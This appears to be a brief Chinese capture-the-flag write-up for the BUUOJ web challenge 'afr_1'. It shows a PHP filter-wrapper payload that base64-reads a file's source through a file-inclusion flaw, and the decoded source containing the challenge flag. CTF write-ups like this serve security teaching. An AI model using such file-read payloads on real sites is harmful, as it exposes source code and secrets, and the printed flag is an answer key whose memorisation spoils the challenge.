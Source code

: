 <center>afr_1</center>





[toc]





## afr_1

> [afr_1](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]afr_1)也是php伪协议的题目





### 1.使用

> 可以去看上一题

```shell
?p=php://filter/read=convert.base64-encode/resource=flag
```

```js
// 解码
<?php
die('no no no');
//n1book{afr_1_solved}
```

